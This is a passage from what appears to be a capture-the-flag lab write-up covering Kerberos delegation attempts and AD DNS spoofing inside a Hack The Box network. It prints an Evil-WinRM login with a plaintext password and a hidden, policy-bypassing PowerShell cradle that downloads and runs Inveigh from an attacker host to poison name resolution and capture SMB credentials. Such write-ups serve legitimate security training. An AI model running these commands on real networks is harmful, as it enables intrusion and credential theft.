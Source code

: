 Kali's pwsh did not get it either:

```
root@kali:$ proxychains4 -q pwsh
PS /root/tools/rbcd-attack> klist
Ticket cache: FILE:/root/tools/rbcd-attack/lee.ccache
Default principal: lee@htb.local
Valid starting       Expires              Service principal
07/02/2020 20:43:52  07/03/2020 06:43:41  http/WEB.htb.local@HTB.LOCAL
        renew until 07/03/2020 20:41:40
PS /root/tools/rbcd-attack> Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
Invoke-WebRequest: The cmdlet cannot protect plain text secrets sent over unencrypted connections. To suppress this warning and send plain text secrets over unencrypted networks, reissue the command specifying the AllowUnencryptedAuthentication parameter.
PS /root/tools/rbcd-attack> Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local -AllowUnencryptedAuthentication
Invoke-WebRequest: GSSAPI operation failed with error - Unspecified GSS failure.  Minor code may provide more information (Matching credential not found (filename: /root/tools/rbcd-attack/lee.ccache)).
PS /root/tools/rbcd-attack> exit
```

#### Refs

* [tothi/rbcd-attack: Kerberos Resource-Based Constrained Delegation Attack from Outside using Impacket](https://github.com/tothi/rbcd-attack)
* [impacket/getST.py at master · SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py#L28-L34)

# 6. Celestial

## Spoofing Active Directory-Integrated DNS

I will jump to the WEB box with Evil-WinRM and run [Inveigh](https://github.com/Kevin-Robertson):

```
root@kali:$ proxychains4 -q evil-winrm.rb -u 'remote_user' -p 'FZg28$dJe*Hx7c' -i 192.168.3.202 -s `pwd` -e `pwd`
*Evil-WinRM* PS > powershell -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).DownloadString('http://10.14.14.37/Inveigh.ps1');Invoke-Inveigh -IP '10.13.38.16' –NBNS Y –mDNS Y –Proxy Y -FileOutput Y -FileOutputDirectory 'c:\users\remote_user.HTB\documents' -LogOutput Y"
```

There are no words no describe how painfully slow and unstable this was box, so I had to reconnect literally after every command as the WinRM HTTPClient had been `KeepAliveDisconnect`'ing all the f\*cking time while working through the pivot point. Inveigh's DNS sniffer helped me to understand that someone on the box was periodically trying to resolve non-existent DNS names (see `[outgoing query]` records):

```
[*] Inveigh 1.504 started at 2020-04-09T13:35:34
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.13.38.16
[+] Spoofer IP Address = 10.13.38.16
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer For Type QU = Enabled
[+] mDNS TTL = 120 Seconds
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] NBNS TTL = 165 Seconds
[+] SMB Capture = Enabled
```